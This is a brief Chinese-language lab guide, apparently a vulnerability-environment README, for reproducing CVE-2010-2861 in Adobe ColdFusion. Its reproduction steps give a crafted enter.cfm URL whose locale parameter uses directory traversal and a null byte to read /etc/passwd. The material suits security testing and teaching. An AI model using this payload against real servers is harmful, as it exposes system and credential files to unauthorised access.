

# CVE-2010-2861

##

访问
http://your-ip:8500/CFIDE/administrator/enter.cfm



> 可以看到初始化页面，输入密码admin，开始初始化整个环境。


## 漏洞复现

1. 访问
```
http://your-ip:8500/CFIDE/administrator/enter.cfm
```
这个页面，构造URL

```

http://your-ip:8500/CFIDE/administrator/enter.cfm?locale=../../../../../../../../../../etc/passwd%00en
```


